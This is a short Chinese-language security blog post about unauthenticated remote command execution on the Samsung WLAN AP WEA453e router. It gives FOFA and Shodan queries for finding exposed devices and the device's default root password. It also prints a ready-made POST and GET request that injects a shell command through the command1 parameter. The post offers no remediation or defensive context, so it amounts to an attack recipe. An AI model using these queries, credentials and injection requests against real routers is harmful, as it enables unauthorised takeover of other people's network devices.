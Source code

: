 #  三星路由器WLAN-AP-WEA453e-未授权RCE等多个漏洞   
骇客安全  骇客安全   2025-04-20 16:00  
  
# FOFA：  
  
```
title=="Samsung WLAN AP"
```  
  
  
Shdan：  
  
```
title:"Samsung WLAN AP"
```  
  
  
路由器默认密码为：  
  
```
root
sweap12~
```  
  
### rce：  
  
**POST：**  
  
```
POST /(download)/tmp/a.txt HTTP/1.1
Host: forum.ywhack.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 41

command1=shell:ifconfig| dd of=/tmp/a.txt
```  
  
  
**Get：**  
  
```
/(download)/tmp/a.txt?command1=shell:ifconfig| dd of=/tmp/a.txt
```  
  
  
